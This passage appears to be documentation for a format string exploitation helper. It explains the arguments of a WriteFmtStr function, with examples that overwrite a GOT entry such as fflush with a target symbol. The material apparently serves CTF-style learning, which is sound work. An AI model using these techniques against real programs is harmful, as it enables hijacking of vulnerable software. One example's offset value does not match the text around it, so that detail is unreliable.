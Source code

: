 ```
target.sendline(fmt_str)
target.interactive()
```

#### address

This specifies the address that you are writing to. The argument expects an integer value, which is the address to be written to. This is the first mandatory argument. In this instance the address being written is `0x08046030`.

```
fs = vf.WriteFmtStr(value=0x08044008, address=0x08046030, offset=10)
```

#### value

This specifies the value that is being written. The argument expects an integer value, which is the value being written. This is the second mandatory argument. In this instance the value being written is `0x08044008`.

```
fs = vf.WriteFmtStr(value=0x08044008, address=0x08046030, offset=10)
```

#### offset

This specifies the stack offset to the start of your input, with respect to the `printf` call. The argument expects an integer value, which is the offset to the start of your input. This is the third and final mandatory argument. In this instance the offset is `6`.

```
fs = vf.WriteFmtStr(value=elf.symbols["pwned"], 
					address=elf.got["fflush"], 
					offset=6, 
					arch=64)
```

Here is what I mean by the offset to the start of your input.

```
$	./vf_64 
00000000.%6$lx
00000000.3030303030303030
```

#### arch

This specifies the architecture of the binary you are exploiting. Currently the two supported architectures are `x86` and `x86_64` (32 bit or 64 bit). For this, I take arguments as string and integer. Here are the arguments. The default value is 32 bit. This is not a required argument. 

32 bit:
```
32
86
"32"
"86"
```
